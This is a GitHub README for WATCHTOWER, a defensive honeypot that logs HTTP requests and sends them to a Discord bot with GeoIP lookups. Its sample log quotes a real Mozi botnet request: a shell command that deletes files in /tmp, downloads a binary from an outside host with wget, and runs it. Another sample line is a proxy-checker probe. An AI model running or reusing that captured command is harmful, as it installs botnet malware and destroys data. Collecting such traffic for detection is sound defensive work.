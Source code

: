 # WATCHTOWER 
A simple and open source honeypot system for detecting and tracking live threats on the internet. 

	- Logging the requests being made, the addresses and the time.
	- Discord bot to interact with the honeypot and see whats happening in real time.
More features to come.

## Logging 
Requests to the server are logged by date/time (files created each time you start honeypot).
Here's an example of some of the malicious traffic I've seen: 

```
====================================================================
Connection at 4/19/2021 - 0:41:23 :
{"5.178.86.76" : "b'POST http://check.best-proxies.ru/azenv.php?s=VJVJVDNRIJOOVEVCPRNRPJUONNURYR HTTP/1.1\r\nHost: check.best-proxies.ru\r\nCookie: testCookie=true\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0\r\nReferer: https://best-proxies.ru/\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 13\r\nConnection: close\r\n\r\ntestPost=true\r\n\r\n'"
================================================================================
Connection at 4/19/2021 - 16:10:54 :
{"<redacted>" : "b'GET /shell?cd+/tmp;rm+-rf+*;wget+http://<redacte>:35094/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1\r\nUser-Agent: Hello, world\r\nHost: <removed>\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\nConnection: keep-alive\r\n\r\n'"
================================================================================
```

## Discord Bot 
Using the discord bot you can retrieve and view these logs in real time as well as do GeoIP lookups:
```
"{\n  \"ip\": \"211.40.129.246\",\n  \"city\": \"Seonghwan\",\n  \"region\": \"Chungcheongnam-do\",\n  \"country\": \"KR\",\n  \"loc\": \"36.9156,127.1314\",\n  \"org\": \"AS3786 LG DACOM Corporation\",\n  \"postal\": \"31014\",\n  \"timezone\": \"Asia/Seoul\",\n  \"readme\": \"https://ipinfo.io/missingauth\"\n}"

"{\n  \"ip\": \"46.43.113.22\",\n  \"hostname\": \"adsl-46.43.113.22.mada.ps\",\n  \"city\": \"Ramallah\",\n  \"region\": \"West Bank\",\n  \"country\": \"PS\",\n  \"loc\": \"31.8996,35.2042\",\n  \"org\": \"AS51407 Mada ALArab LTD\",\n  \"timezone\": \"Asia/Hebron\",\n  \"readme\": \"https://ipinfo.io/missingauth\"\n}"
```

**working on a feature for automated reporting to AbuseIPDB.com**

## Setup 
Because this needs  to be run on the public internet, you can try changing to port 8080, adding a lower privilege user an running from that account. By default this is setup to run to grab headers and requests of HTTP traffic on port 80 by default. 

Create a `.env` file in the `/WatchTower/code/` Directory. This is where you should put:
```
HONEY=IP_ADDRESS_OF_HONEY_POT
HOSTN=HOST_NAME_OF_HONEY_POT_USER
TOKEN=DISCORD_BOT_API_TOKEN
ABUSE=FREE_ABUSE_IPDB_API_TOKEN 
``` 
Last one is optional (and not fully functional yet). 
